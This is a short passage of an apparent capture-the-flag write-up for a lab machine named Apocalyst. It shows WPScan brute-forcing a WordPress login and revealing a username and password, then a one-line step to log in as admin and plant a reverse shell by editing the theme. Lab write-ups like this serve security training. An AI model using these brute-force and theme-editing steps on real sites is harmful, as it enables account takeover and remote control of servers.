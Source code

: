 ```

[+] Enumerating Config Backups
 Checking Config Backups - Time: 00:00:00 <========================================================================================> (21 / 21) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - falaraki / Transclisiation                                                                                                                               
Trying falaraki / Transclisiation Time: 00:00:16 <======================================================                          > (335 / 486) 68.93%  ETA: 00:00:08
[i] Valid Combinations Found:
 | Username: falaraki, Password: Transclisiation

Scan Aborted: You can't set the item's total value to less than the current progress.
```

=>  | Username: falaraki, Password: Transclisiation

## WP login

log as admin
Edit theme & add a reverse shell

![](img/apocalyst_edit_theme.png)
